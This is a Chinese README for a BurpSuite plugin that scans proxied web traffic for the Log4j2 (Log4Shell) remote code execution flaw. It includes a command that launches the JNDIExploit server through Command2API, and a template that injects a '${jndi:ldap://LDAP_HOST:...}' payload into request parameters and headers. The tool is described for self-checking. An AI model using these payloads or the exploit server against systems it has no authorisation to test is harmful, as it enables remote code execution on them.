 # Log4j2 RCE Scanner

**作者**：key@元亨实验室

**小广告**：实验室纳新招人，岗位方向有安全研究（攻防、漏洞）、威胁情报（APT分析）、内部安全（SDL、安全研发），简历投递至邮箱：c2VjdXJpdHlAemhvbmdmdS5uZXQ=

## 前言

这是一个用于扫描近期爆出的Log4j2 RCE漏洞的BurpSuite插件，其原理就是基于BurpSuite提供的被动式扫描API，对流经Burp Proxy模块的流量进行全量扫描，扫描作用域为：请求参数（JSON字段、正常请求参数、Cookie参数、XML字段、Mulitpart）、请求头（请求自带请求头与自定义请求头）。

它与其他插件的区别：

1. 一个点一个Payload（Hash区分），便于追踪漏洞位置；
2. 仅支持LDAP Log接口，不支持DNS扫描探测，便于快速定位有效漏洞位置进行自查自检；
3. 使用Python（Jython）编写，可以非常快速的进行二次开发、代码阅读，例如你可以改造这个项目为SQL注入、XSS盲打的探测插件；
4. 支持扫描作用域相对较全。

## 使用方法

1. **准备工作**：该插件用Python（Jython）所写，所以需要你的BurpSuite加载Jython的Jar包，下载地址：https://repo1.maven.org/maven2/org/python/jython-standalone/2.7.2/jython-standalone-2.7.2.jar ，BurpSuite加载位置：BurpSuite - Extender - Options - Python Environment - Location of Jython standalone JAR file。

2. **准备LDAP Log接口**：由于插件的特殊性，在不更改插件代码的情况下，建议你准备一台服务器，在上面部署LDAP服务并提供一个Web API给到插件，这里推荐[Command2API](https://github.com/gh0stkey/Command2API)项目，搭配JNDIExploit使用。

   ```python
   python Command2Api.py "java -jar JNDIExploit.v1.2/JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0" 9889
   ```

   ![](images/0.png)

3. **填写配置**：下载Python文件到本地，存储在无空格、无特殊符号、无中文的目录下，接着替换如下代码：

   ```python
   # LDAP_API_HOST -> LDAP Log接口的主机地址（域名/IP，请注意内、外网环境）
   # LDAP_API_PORT -> LDAP Log接口的主机端口
   # LDAP_API_PORT -> LDAP Log接口的路由
   # 建议搭配Command2API项目一起使用，其他接口请自行更改代码
   url = "http://LDAP_API_HOST:LDAP_API_PORT/LDAP_API_ROUTE"
   # LDAP_HOST -> LDAP 服务的主机地址（域名/IP，请注意内、外网环境）
   # LDAP_PORT -> LDAP 服务的主机端口
   return self._helpers.urlEncode("${jndi:ldap://LDAP_HOST:LDAP_PORT/" + random_md5 + "}")
   ```

   ![](images/2.png)

4. **加载插件**：BurpSuite加载位置：BurpSuite - Extender - Extensions - Burp Extensions - Add。

   ![](images/1.png)

5. **开始扫描**：浏览器挂上BurpSuite代理，让流量流经BurpSuite，插件会自动扫描，或者你可以选择结合爬虫的方式将爬虫流量过到BurpSuite进行扫描。

6. **扫描结果**：扫描结果会在Burp Dashboard中展示出来，并且有具体的请求报文，如下图所示，分别是Command2API与LDAP服务接收的日志（**由于该漏洞的触发特殊性，建议对这些日志和BurpSuite流量进行保存**）以及Burp的扫描结果。

   ![](images/3.png)

